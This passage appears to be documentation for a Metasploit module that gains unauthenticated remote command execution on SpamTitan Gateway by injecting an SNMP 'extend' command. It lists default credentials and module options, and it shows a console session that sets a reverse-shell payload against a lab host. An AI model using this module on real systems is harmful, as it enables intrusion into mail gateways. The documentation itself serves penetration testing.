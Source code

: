 ### TARGETURI
The base path to SpamTitan. Default value is `/`.

### USERNAME
The username to authenticate, if required (depending on SpamTitan Gateway
version). Default value is `admin`.

### PASSWORD
The password to authenticate, if required (depending on SpamTitan Gateway
version). Default value is `hiadmin`.

### COMMUNITY
The SNMP Community String to use (random string by default).

### ALLOWEDIP
The IP address that will be allowed to query the injected `extend` command.
This IP will be added to the SNMP configuration file on the target. This is
tipically this host IP address, but can be different if your are in a NAT'ed
network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it
will default to `127.0.0.1`.

### SNMPPORT
The target SNMP port (UDP). Default port is `161`.

## Scenarios

### SpamTitan Gateway v7.01 - target 0 (in-memory command)

```
msf6 > use exploit/freebsd/webapp/spamtitan_unauth_rce
[*] Using configured payload cmd/unix/reverse
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set LHOST 172.16.60.1
LHOST => 172.16.60.1
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set RHOSTS 172.16.60.101
RHOSTS => 172.16.60.101
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set verbose true
verbose => true
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is tipically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
```
